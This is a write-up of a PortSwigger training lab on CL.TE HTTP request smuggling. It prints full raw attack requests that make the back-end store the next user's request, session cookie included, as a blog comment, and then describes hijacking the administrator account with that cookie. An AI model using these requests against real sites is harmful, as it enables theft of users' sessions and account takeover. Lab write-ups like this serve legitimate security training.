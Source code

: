 # Exploiting HTTP request smuggling to capture other users' requests | Feb 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests), you'll learn: Exploiting HTTP request smuggling to capture other users' requests! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

> Note: The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201184511.png)

In here, we can test for HTTP request smuggling.

But, we need to determind which type of header does the front-end and back-end server uses.

- CL.TE:

First, we can test CL.TE (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header).

To do so, we need to sent an attack request, then a normal request.

**Attack request:**
```http
POST / HTTP/1.1
Host: 0a0b009503762decc15371be0099007c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

This request will smuggle a 404 page GET request.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201184911.png)

**Normal request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201184925.png)

As you can see, our normal request has been overrided by our attack smuggled request.

Hence, the web application is **vulnerable to CL.TE HTTP request smuggling.**

In the lab's background, our goal is to **smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.**

**In the home page, we can view other posts:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185122.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185137.png)

And we can leave some comments.

Let's leave a test comment:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185219.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185232.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185246.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201185314.png)

When we clicked the "Post Comment", **it'll send a POST request to `/post/comment`, with parameter `csrf`, `postId`, `comment`, `name`, `email`, `website`.**

Also, the `name` and `comment` value is being **reflected** to the post page.

**Armed with above information, we can smuggle a request to the back-end server that causes the next user's request to be stored in the application:**
```http
POST / HTTP/1.1
Host: 0a0b009503762decc15371be0099007c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 260
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Cookie: session=ix1mM13Nfy3blSXvkpeuSx2VQC8eANjo
Content-Type: application/x-www-form-urlencoded
Content-Length: 793

csrf=dzIBnytJENliX4HnUuoeIn1UbW3Yh2PJ&postId=1&name=smuggled&email=user%40smuggled.com&website=&comment=
```

> Note: The `comment` parameter must be at the last parameter. Also, you need to include your session cookie, otherwise the CSRF token is invalid.

The `Content-Length` header of the smuggled request indicates that the body will be 793 bytes long, but we've only sent 104 bytes. In this case, the back-end server will wait for the remaining 689 bytes before issuing the response, or else issue a timeout if this doesn't arrive quick enough. As a result, when another request is sent to the back-end server down the same connection, the first 689 are effectively appended to the smuggled request.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201191605.png)

> Note: The attack request need to be sent three times in order to retrieve the next user's request.

**Then, refresh the page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201191707.png)

Nice! We successfully retrieved the next user's session cookie!

**Let's hijack that user's account via editing the session cookie:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-9/images/Pasted%20image%2020230201191808.png)

I'm user `administrator`!

# What we've learned:

1. Exploiting HTTP request smuggling to capture other users' requests